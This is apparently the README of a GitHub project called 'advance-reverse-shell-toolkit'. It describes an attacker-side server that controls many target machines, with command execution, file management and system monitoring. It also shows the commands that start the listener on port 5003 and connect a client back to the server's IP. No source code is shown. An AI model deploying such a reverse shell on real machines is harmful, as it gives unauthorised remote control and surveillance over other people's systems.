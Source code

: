 # advance-reverse-shell-toolkit
This toolkit comprises both client and server components, enabling remote communication between a server (attacker) and multiple client (target) machines. It provides advanced functionalities, including multi-client command execution, enhanced file management capabilities, and comprehensive system monitoring.

[server-machine] $ python server.py

Listening as 0.0.0.0:5003 ...

interpreter $>help



[client-machine] $ python client.py [server-machine-ip]
